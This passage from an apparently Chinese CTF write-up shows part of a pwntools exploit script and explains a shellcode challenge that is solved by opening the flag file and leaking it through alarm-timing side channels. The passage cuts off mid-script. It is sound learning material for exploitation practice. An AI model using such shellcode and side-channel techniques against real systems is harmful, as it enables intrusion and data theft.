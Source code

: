 ```python
		sl('-925904832333333')
		sleep(0.2)
		sl('-1')
		sleep(0.5)
		print('[+]SUCCESS! '+flag+chr(j))

		ia()
	except:
		print("[-]ERROR! Now is "+chr(j))

```



### shellcode

限制输入的字符只能为可见字符，系统调用开放了32位的open，64位的read、mmap、alarm，专门把32位的write禁掉了

> 保姆级教程：
>
> [shellcode的艺术](https://xz.aliyun.com/t/6645#toc-5)

没有输出的系统调用，还有一个匪夷所思的alarm，学长当即表示读flag到内存后可以把flag当成alarm的参数，通过计时侧信道爆破flag

不得不说这题思路新奇，破脚本修修补补跑第6次得到了完全正确的flag

```python
#coding:utf-8

from pwn import *
import time

shellcode_x86 = '''
/*fp = open("flag")*/

mov esp,0x40404140

push 0x67616c66

push esp

pop ebx

xor ecx,ecx

mov eax,5

int 0x80

mov ecx,eax

'''
shellcode_x86 = asm(shellcode_x86)



append_x86 = '''
push ebx

pop ebx
'''

append = '''
push rdx

pop rdx
```